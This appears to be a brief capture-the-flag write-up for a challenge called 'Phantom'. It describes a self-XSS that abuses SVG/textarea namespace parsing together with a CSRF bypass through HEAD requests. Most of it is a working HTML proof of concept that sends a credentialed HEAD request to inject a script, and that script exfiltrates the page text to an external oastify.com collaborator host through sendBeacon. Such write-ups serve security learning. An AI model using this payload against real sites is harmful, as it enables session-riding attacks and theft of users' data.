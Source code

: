 # Phantom

Self-XSS because of the validation with Tokenizer instead of Parser plus HEAD-based CSRF.

1. XSS works when using non-HTML namespace tags like `<svg><textarea><script>alert()</script></textarea></svg>`
2. CSRF protection can be bypassed on adding description by using HEAD method.

## POC

```html
<html>
  <body>
    <script>
      fetch('https://localtest.me:443/profile/edit?description=%3csvg%3e%3ctextarea%3e%3cscript%3enavigator.sendBeacon("https://6ryity9rcl45utozwwbc670zsqyhmda2.oastify.com",document.documentElement.innerText)%3c%2fscript%3e%3c%2ftextarea%3e%3c%2fsvg%3e', {
            method: 'HEAD',
            credentials: 'include',
            mode: 'cors'
        }).then(response => {
            // Handle response
            console.log(response);
        }).catch(error => {
            // Handle error
            window.open('https://localtest.me:443/profile')
        });
    </script>
  </body>
</html>

```